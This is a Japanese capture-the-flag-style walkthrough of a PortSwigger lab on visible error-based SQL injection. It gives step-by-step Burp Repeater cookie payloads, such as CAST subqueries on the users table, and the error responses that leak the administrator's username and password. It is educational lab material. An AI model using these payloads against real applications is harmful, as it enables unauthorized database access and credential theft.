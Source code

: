 # 目に見えるエラーベースの SQL インジェクション

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based  
このラボには SQL インジェクションの脆弱性が含まれています。アプリケーションは分析に追跡 Cookie を使用し、送信された Cookie の値を含む SQL クエリを実行します。SQL クエリの結果は返されません。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. Trackingid を Cookie に含む GET / リクエストを send to repeater します
- 4. Trackingid の後に'を付加して送信すると、SQL エラーが発生します

```
Cookie: TrackingId=w5Y1j22fFFWhOp3j';
```

レスポンス

```html
<h4>Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'w5Y1j22fFFWhOp3j''. Expected char</h4>
<p class="is-warning">Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'w5Y1j22fFFWhOp3j''. Expected char</p>
```

- 5. 以下のようにしてリクエストを送信します。エラーになりません。

```
Cookie: TrackingId=w5Y1j22fFFWhOp3j'--;
```

- 6. ' AND CAST((SELECT 1) AS int)--を付加してリクエストを送信すると、bool 型にしてくれと怒られます。

```html
<h4>ERROR: argument of AND must be type boolean, not type integer Position: 63</h4>
<p class="is-warning">ERROR: argument of AND must be type boolean, not type integer Position: 63</p>
```

- 7. ' AND 1=CAST((SELECT username FROM users) AS int)--を付加してリクエストを送信します

```
Cookie: TrackingId=w5Y1j22fFFWhOp3j' AND 1=CAST((SELECT username FROM users) AS int)--;
```

レスポンス

```
Unterminated string literal started at position 95 in SQL
```

文字列が切り捨てられてエラーになっています

- 8. trakingid の値を削り、再度送信します

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--;
```

レスポンス

```html
<h4>ERROR: more than one row returned by a subquery used as an expression</h4>
```

複数行返す SQL だと怒られます

- 9. 1 行返す SQL に書き換えて送信します

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--;
```

レスポンス

```html
<h4>ERROR: invalid input syntax for type integer: "administrator"</h4>
```

administrator が最初の 1 行目だと分かります

- 10. パスワードを取得する SQL に書き換えて送信します

```
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--;
```

レスポンス

```html
<h4>ERROR: invalid input syntax for type integer: "k4ozlascs5n3uqirbxxp"</h4>
```

- 10. administrator でログインします
